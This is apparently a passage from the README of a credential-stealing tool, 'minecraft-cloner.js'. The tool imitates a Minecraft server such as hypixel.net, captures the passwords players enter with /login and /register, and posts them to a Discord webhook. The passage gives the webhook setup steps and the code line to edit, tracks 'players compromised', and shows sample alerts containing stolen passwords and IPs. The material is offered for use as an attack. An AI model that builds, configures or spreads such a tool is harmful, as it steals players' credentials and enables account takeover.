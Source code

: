 #### Statistics Integration

The system tracks comprehensive metrics:

- **Total Credentials**: Count of all captured passwords
- **Unique Users**: Number of individual players compromised
- **Connection Statistics**: Total connections and success rates
- **Temporal Analysis**: Capture patterns over time

## 🔔 Discord Integration

### Webhook Configuration

#### Initial Setup

1. **Create Discord Webhook**:
   ```
   Discord Server → Settings → Integrations → Webhooks → New Webhook
   ```

2. **Configure Webhook**:
   - **Name**: "Credential Logger"
   - **Channel**: Choose appropriate secure channel
   - **Copy URL**: Save webhook URL for configuration

3. **Update Application**:
   - Open `minecraft-cloner.js` in text editor
   - Locate line ~15 in `DiscordWebhook` class constructor:
   ```javascript
   this.webhookUrl = 'https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN';
   ```
   - Replace with your webhook URL
   - Set `this.enabled = true;` to activate notifications

#### Notification Types

##### System Startup Notification
```
🚀 CREDENTIAL LOGGER AVVIATO
═══════════════════════════════
🎯 Server Target: hypixel.net:25565
🎮 Versione: Paper 1.20.1
👥 Giocatori: 247/1000
📡 Monitoraggio comandi /login e /register
⚠️ Le credenziali verranno inviate qui automaticamente
```

##### Credential Capture Alert
```
🔥 CREDENZIALE CATTURATA! 🔑
═══════════════════════════════
👤 Nickname: PlayerName
🔑 Password: ||secretpassword|| (click to reveal)
⚡ Tipo: 🔑 LOGIN
🌐 Server Originale: hypixel.net:25565
📡 IP Client: 192.168.1.100
📅 Data/Ora: 09/10/2025 15:30:45
💻 Comando Completo: /login secretpassword
```
